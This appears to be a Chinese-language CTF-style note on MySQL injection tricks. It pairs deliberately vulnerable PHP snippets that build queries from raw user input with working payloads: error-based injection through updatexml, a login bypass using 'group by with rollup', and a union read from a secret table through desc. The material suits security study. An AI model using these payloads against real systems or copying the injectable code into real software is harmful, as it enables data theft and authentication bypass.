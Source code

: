 代码大概如下

```php
mysql_query("show columns from `shop_{$table}`") or die("show coulumns 出错:".mysql_error());
```
show columns 语法

```
SHOW [FULL] COLUMNS {FROM | IN} tbl_name [{FROM | IN} db_name]
    [LIKE 'pattern' | WHERE expr]
```

利用报错注入

```
table=123` where updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)#
```

## group by with rollup

group by with rollup （对分组后的结果进行汇总），with rollup 会对 group by 的列，在最后多出一个 NULL 的值

```php
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
    print "一颗赛艇！";
}
```

payload

```
# limit 1 offset 2 是需要不断测试，猜测出表中一共有几条数据，最后一条 pwd 的值为 null
uname='or 1 group by pwd with rollup limit 1 offset 2#
```

## desc 

desc 是数据库的操作命令，可以列出表或者字段的定义，desc 后可以跟 `表名 [列名]`，表名必须正确，而`列名则不必须`。

```
desc tablename filedname
desc `tablename` `filedname`
```

例如这种情况下，可以在列名处构造 payload 实现绕过

```php
// payload: test` `where 0 union select *  from secret_test
$table = $_GET['table']?$_GET['table']:"test";
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
```
